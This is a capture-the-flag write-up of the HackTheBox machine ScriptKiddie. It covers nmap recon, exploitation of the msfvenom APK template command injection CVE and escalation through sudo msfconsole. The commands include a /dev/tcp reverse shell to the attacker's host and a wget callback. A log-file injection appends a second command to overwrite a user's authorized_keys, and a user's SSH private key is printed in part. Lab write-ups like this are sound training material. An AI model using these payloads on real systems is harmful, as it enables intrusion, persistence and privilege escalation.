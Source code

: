 Title:HTB: ScriptKiddie
Date: 06-07-2021 10:25
category:security
tags:security, boot2root, HTB, msfvenom, nmap, msfconsole
meta:security, boot2root, HTB, msfvenom, nmap, msfconsole

<img class="align-left" src="/media/2021.06/sk_card.png" alt="ScriptKiddie Card" width="262">

This is a writeup about a retired HacktheBox machine:
[ScriptKiddie](https://www.hackthebox.com/home/machines/profile/314) publish on
February 6, 2021 by
[0xdf](https://www.hackthebox.com/home/users/profile/4935).
This box is rated as easy box the user part implies to use CVE-2020-7384, the
root part is just abusing a bash script and using msfconsole.

<!-- PELICAN_END_SUMMARY -->

# User

## Recon

Let us start as always by a `nmap` scan. Only port 22 (SSH) and 5000 with a HTTP
service are open.

    :::text
    # Nmap 7.91 scan initiated Sun Feb  7 08:50:44 2021 as: nmap -p- -sSV -oN nmap 10.129.94.194
    Nmap scan report for 10.129.94.194
    Host is up (0.011s latency).
    Not shown: 65533 closed ports
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Sun Feb  7 08:51:09 2021 -- 1 IP address (1 host up) scanned in 24.16 seconds


## Web

The webpage seems to be a "hacker" personal page with a few wrapper around
classical tools as `nmap`, `msfvenom` and `searchsploit`.

![Homepage](/media/2021.06/sk_01.png)

The "template file" option with `msfvenom` is strange. After a few Google research we found
about CVE-2020-7384 which is "msfvenom APK template command injection" and has
[a public exploit available](https://www.exploit-db.com/exploits/49491)


We change the payload to perform a `wget` on our python server

    :::python
    # Change me
    payload = 'wget 10.10.14.64:8000'

We got a hit on our local python HTTP which confirm our RCE.

    :::text
    kali@kali:/tmp$ python3 -m http.server
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
    10.129.94.194 - - [07/Feb/2021 09:27:09] "GET / HTTP/1.1" 200 -

We change the payload again for a reverse shell.

    :::python
    payload = 'sh -i >& /dev/tcp/10.10.14.64/4433 0>&1'

We run netcat to catch it and got the user flag.

    :::text
    kali@kali:/tmp$ nc -l -p 4433
    id
    sh: 0: can't access tty; job control turned off
    $ uid=1000(kid) gid=1000(kid) groups=1000(kid)
    $ cd
    $ cat user.txt
    51573bc36ae7c15d3bb11c3b043a5dea

# Root

## Persistance

We look at our user home folder and get the SSH private key

    :::text
    $ ls -al
    total 60
    drwxr-xr-x 11 kid  kid  4096 Feb  3 11:49 .
    drwxr-xr-x  4 root root 4096 Feb  3 07:40 ..
    lrwxrwxrwx  1 root kid     9 Jan  5 20:31 .bash_history -> /dev/null
    -rw-r--r--  1 kid  kid   220 Feb 25  2020 .bash_logout
    -rw-r--r--  1 kid  kid  3771 Feb 25  2020 .bashrc
    drwxrwxr-x  3 kid  kid  4096 Feb  3 07:40 .bundle
    drwx------  2 kid  kid  4096 Feb  3 07:40 .cache
    drwx------  4 kid  kid  4096 Feb  3 11:49 .gnupg
    drwxrwxr-x  3 kid  kid  4096 Feb  3 07:40 .local
    drwxr-xr-x  9 kid  kid  4096 Feb  3 07:40 .msf4
    -rw-r--r--  1 kid  kid   807 Feb 25  2020 .profile
    drwx------  2 kid  kid  4096 Feb  3 07:40 .ssh
    -rw-r--r--  1 kid  kid     0 Jan  5 11:10 .sudo_as_admin_successful
    drwxrwxr-x  5 kid  kid  4096 Feb  7 14:25 html
    drwxrwxrwx  2 kid  kid  4096 Feb  3 07:40 logs
    drwxr-xr-x  3 kid  kid  4096 Feb  3 11:48 snap
    -r--------  1 kid  kid    33 Feb  7 13:48 user.txt
    $ ls .ssh/
    authorized_keys
    id_rsa
    id_rsa.pub
    $ cat .ssh/authorized_keys
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCt/
    MXWipZH4vmE0lLycTlwk0eFcEQilnSCwpQoLA9QEiFAMvopNThWyjGkst6HNPdDvSDlJEfTtW4PaOFA
    seUICcwuidMXc4xepu1t0hrfv5Wn7SiwQwIDwE0DvRRSpLIr9I0wfjjEPnvc4y7uuMvsf0hegZLMnChg
    stWWCw99DS5q0YdXxkIC7eKlI90nHyUHL3ULwXDBk6NWhPmJ90yDaFC4iD0yVP3xmjKjl0iotkqbhKhR
    AD8bUINZ7anXTw4Hb0iF5tMAttB8JbLts5zvgQtYrciKE4Qnl4F+MO5yg3G03s9V69K4R+TXmI4TZKUH
    fEpNnReQ+73uOqgjH5VeZr0TmSLEszfFfXRcv7t4jxOboYnS+lgR1V2iGHzSle+nAlVLHqlwP5RTtwaO
    wE0nbykigyz/h4KNCn0rU69fYWSrkcFPYOSm92QKmaMJuXqnycjuqLmHMD2XKSuhlpgD/VmQL34C7pju
    4h+/78qK50+itG0FCiSy6IRd5DIfTkU= kid@scriptkiddie
    $ cat .ssh/id_rsa
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEArfzF1oqWR+L5hNJS8nE5cJNHhXBEIpZ0gsKUKCwPUBIhQDL6KTU4
    <SNIP>
    sOeM4jMTD4DJbb/8Jsh6yzW45V3bgPp1Hm4nI3AZ8SjSI4VqtO9CcDKtPnvh3/jm5VEx9W
    bK3NNrAo9t2tlfAAAAEGtpZEBzY3JpcHRraWRkaWUBAg==
    -----END OPENSSH PRIVATE KEY-----

## scanlosers

We can now  directly connect using SSH. Looking at the accessible files we found
that the `pwn` user has a script `scanlosers.sh` readable by our user. This
script read a log file containing "hacking" attempts and run a `nmap --top10` on
it.

    :::text
    $ ssh kid@10.129.94.194 -i sc_id_rsa
    <SNIP>

    kid@scriptkiddie:~$ cat ../pwn/scanlosers.sh
    #!/bin/bash

    log=/home/kid/logs/hackers

    cd /home/pwn/
    cat $log | cut -d' ' -f3- | sort -u | while read ip; do
        sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
    done

    if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi


We download /home/kid/.ssh/authorized_keys localy and rename it to test a few
payload locally. The `cut -d' ' -f3-` means that the 3 first "words"
(characters separated by a space) will be dropped.

The idea is to execute a payload in order to add our SSH key to the "pwn"
user. As always we start by a simple `wget` to ensure the RCE. After a few
attempt we found the following payload that we add to the `hackers` file:

    :::text
    echo 'q w e 127.0.0.1 127.0.0.1 ; wget 10.10.14.64:8000/a -O /home/pwn/.ssh/authorized_keys  ; #' > ../kid/logs/hackers

As the "kid" private key is now also authorized for the "pown" user, we connect
using directly SSH.

    :::text
    $ ssh pwn@10.129.94.194 -i sc_id_rsa
    <SNIP>
    pwn@scriptkiddie:~$ id
    uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)

## msfconsole

Our "pown" user can run `msfconsole` as "root" without any password, which
quickly give us a shell using the `bash` msf command allowing us to get the root
flag.

    :::text
    pwn@scriptkiddie:~$ sudo -l
    Matching Defaults entries for pwn on scriptkiddie:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User pwn may run the following commands on scriptkiddie:
        (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
    pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole

    <SNIP>
    msf6 > bash
    [*] exec: bash

    root@scriptkiddie:/home/pwn# id
    uid=0(root) gid=0(root) groups=0(root)
    root@scriptkiddie:/home/pwn# cat /root/root.txt
    b4ccca123e8efc9cc65296e42ed4cabf


# Wrapping up

An easy box exploiting a few mechanisms. The msfvenom exploit was fun to use.

